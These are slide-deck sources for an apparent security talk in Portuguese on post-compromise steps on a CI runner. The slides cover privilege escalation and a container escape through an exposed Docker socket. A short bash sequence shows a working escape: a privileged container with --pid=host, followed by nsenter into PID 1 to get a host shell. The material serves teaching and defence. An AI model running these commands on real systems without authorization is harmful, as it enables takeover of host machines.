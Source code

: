 # Escalação de privilégios

No runner comprometido:

🎯 *O shell é só o começo.*
<v-clicks>

- Buscar permissões locais e scripts executados como root  
- Abusar de permissões mal configuradas  
- Acessar processos com privilégios elevados
- Procurar recursos disponiveis internamente

</v-clicks>

<style>
h1 {
  background-color:rgb(43, 182, 143);
  background-image: linear-gradient(85deg,rgb(78, 212, 132) 15%,rgb(20, 140, 122) 25%);
  background-size: 100%;
  -webkit-background-clip: text;
  -moz-background-clip: text;
  -webkit-text-fill-color: transparent; 
  -moz-text-fill-color: transparent;
}
</style>

---

# Docker Socket & Escapando do container

```bash {0|1-2|4|6|8|10|all}
ls /var/run
docker.sock  lock  mount  systemd utmp

apt install -y python3 docker.io

python3 -c "import pty;pty.spawn('/bin/bash')"

docker run -it --rm --pid=host --privileged ubuntu bash

nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

<v-click at="1">

- Procurar pelo docker socket, geralmente ele é passado para um container para ajudar a gerenciar outros containers. ex; Portainer

</v-click>

<v-click at="4">

- Nem preciso apontar para onde esta o socket, visto que ele esta no lugar e nome padrão, então CLI já pega.
